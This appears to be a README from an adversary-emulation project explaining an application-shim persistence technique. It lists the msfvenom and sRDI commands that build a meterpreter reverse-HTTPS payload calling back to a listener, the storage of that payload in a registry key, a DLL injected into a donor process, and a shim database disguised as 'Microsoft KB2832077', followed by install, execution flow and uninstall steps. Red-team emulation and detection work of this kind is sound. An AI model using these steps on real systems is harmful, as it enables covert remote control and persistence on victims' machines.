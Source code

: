 # Step 19 File Descriptions, Role in Emulation, and Execution Flow

### bin329.tmp

`bin329.tmp` is a 32bit [sRDI converted meterpreter dll](https://github.com/monoxgas/sRDI).

- `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https LHOST=192.168.0.4 LPORT=53 -f dll -o payload.dll`
- `git clone https://github.com/monoxgas/sRDI`
- `python3 sRDI/Python/ConvertToShellcode.py payload.dll`
- `mv payload.bin bin329.tmp`

  From `sudo msfconsole`

- `handler -p windows/meterpreter/reverse_https -H 192.168.0.4 -P 53`

This payload will be stored in the registry at `HKLM\SOFTWARE\Microsoft\DRM\4` as a binary value by [prep_and_install_shim.ps1](prep_and_install_shim.ps1)

### prep_and_install_shim.ps1

Launch from an interactive administrator PowerShell, [prep_and_install_shim.ps1](prep_and_install_shim.ps1) stores bin329.tmp into the registry, copies over files to `C:\Windows\Temp`, and installs the applicatin shim via `sdbinst.exe`.

### dll329.dll

`dll329.dll` is a custom statically compiled dll that is injected into the `AccountingIQ.exe` application via the InjectDLL application shim when the application is launched. Its purpose is to spawn a donor process(SyncHost.exe), inject into it, read the payload registry key, and execute the payload.

[Code for this dll can be found in injectDLL-Shim](./InjectDLL-Shim)

Simply click the `.sln` file to open with Visual Studio Code 2019. Then compile.

### sdbE376.tmp

`sdbE376.tmp` is the application shim database file. It contains the information on which to process to appy what shim to with which parameters. For this technique we are targeting `AccountingIQ.exe` with an `InjectDLL` shim with a parameter of `C:\Windows\Temp\dll329.tmp`.

#### Generating an sdb file from scratch

Download the [Windows Assessment and Deployment Kit for Windows 10](https://support.microsoft.com/en-us/help/4027209/oems-adk-download-for-windows-10). You only need to select the `Application Compatibility Toolkit` during installation.

From an Administrator PowerShell/CMD shell

- `cd "C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Application Compatibility Toolkit\Compatibility Administrator (32-bit)"`
- `.\Compatadmin.exe /x`
  - `/x` is an undocumented argument that will enable more shims

- Click `Fix` to begin
  - `AccountingIQ` for name of program
  - `Microsoft` for name of vendor
  - Browse to program you would like to shim (AccountingIQ.exe)

- Click `Next` to skip the Compatability Mode section

- Select the `InjectDLL` shim by checking the box to its left
  - Click `Parameters`
  - Under `Command line` put the path to the DLL to inject - `C:\Windows\Temp\dll329.dll`
  - `OK`
  - `Next`

- Unselect all check boxes so that the shim will fire on any application that shares the name `AccountingIQ.exe`

- `Finish`

- Save Database as `Microsoft KB2832077` - Following CTI

- Save the SDB file to `C:\Windows\Temp\sdbE376.sdb` - `sdbE376.tmp`

- Open PowerShell
  - `mv C:\Windows\Temp\sdbE376.sdb C:\Windows\Temp\sdbE376.tmp`
  - `sdbinst.exe  C:\Windows\Temp\sdbE376.tmp`

The shim is now installed

## Execution Flow

1) Encoded PowerShell
    - Drops `sdbE376.tmp` and `dll329.dll` to `C:\Windows\Temp`
    - Sets Reg key with binary data of meterpreter payload to `HKLM:\Software\Microsoft\DRM\4`
    - Invokes `sdbinst.exe` on `sdbE376.tmp` - Installs shim

2) Box is rebooted

3) Login over RDP onto system

4) Shim fires on launch of `AccountingIQ.exe` at login
    - `dll329.dll` is injected into `AccountingIQ.exe` via InjectDLL shim
    - `dll329.dll` spawns `C:\Windows\SysWOW64\SyncHost.exe` as a donor process
    - `dll329.dll` injects and maps a function into `SyncHost.exe`
    - Function runing in `SyncHost.exe` now reads payload from `HKLM:\Software\Microsoft\DRM\4` and executes it

5) User level meterpreter session is spawned

### Process Tree of Execution

![Process Tree of Execution](ProcessExplorer_ProcessTree.png)

## Uninstallation

Removing the shim can be done in two ways:

1) `sdbinst.exe -u sdbE376.tmp`

2) Open `Control Panel\Programs\Programs and Features` and look for the `Microsoft KB2832077` database name and uninstall it.
